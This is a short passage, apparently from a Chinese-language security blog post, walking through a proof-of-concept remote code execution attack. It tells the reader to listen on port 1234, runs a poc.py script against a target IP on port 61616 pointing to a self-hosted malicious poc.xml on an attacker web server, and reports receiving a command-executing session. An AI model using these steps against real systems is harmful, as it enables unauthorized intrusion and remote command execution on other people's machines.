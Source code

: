 ```
    main(sys.argv[1],   int(sys.argv[2]), sys.argv[3])
```

  
  
监听本机IP端口1234  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZZ3jVtmP1xZzeAM1LwZOJsUGotC60WctNiaAjszmDWjMILHoyEFiciajsQ/640?wx_fmt=png&from=appmsg "")  
  
  
执行poc.py  

```
python poc.py 10.22.250.67 61616 http://10.132.0.76:8888/poc.xml
```

  
  
10.22.250.67 61616                         
  
为靶机IP和端口  
  
  
http://10.132.0.76:8888/poc.xml   
  
为自己构造的poc.xml,  
注意端口为自己web服务开放的  
  
  
成功接收到会话,  
可以执行命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5Z79un2So2m5nDLxeyfic7D3q0fzH1dGdIypCVc6QdqrgkTLpyOUcvohw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
  

